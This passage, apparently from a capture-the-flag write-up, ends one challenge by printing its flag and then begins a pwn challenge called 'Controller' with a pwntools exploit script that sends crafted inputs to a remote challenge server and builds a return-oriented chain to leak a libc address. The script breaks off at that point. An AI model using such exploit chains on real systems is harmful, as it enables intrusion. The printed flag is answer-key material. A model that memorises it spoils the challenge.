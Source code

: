 And there we have the flag!

![](writeupfiles/Bug_Report.png)

```
CHTB{th1s_1s_my_bug_r3p0rt}
```
# Pwn

##

## Controller

Solved By: bread

```python
from pwn import *
from one_gadget import generate_one_gadget

onegadget = next(generate_one_gadget('./libc.so.6'))
    
#p = process("./controller")
p = remote('165.227.228.41', 32435)
elf = ELF("./controller")
libc = ELF("./libc.so.6")

MAIN = elf.symbols['main']
PUTS = elf.plt['puts']
POPRDI = 0x4011d3
FUNC_GOT = elf.got["exit"]
padding = b"A" * 40

#####
# leak libc
#######

payload = padding + p64(POPRDI) + p64(FUNC_GOT) + p64(PUTS) + p64(MAIN)

p.sendlineafter(":", "-182 -359")
p.sendlineafter(">", "3")
p.sendlineafter(">", payload)
```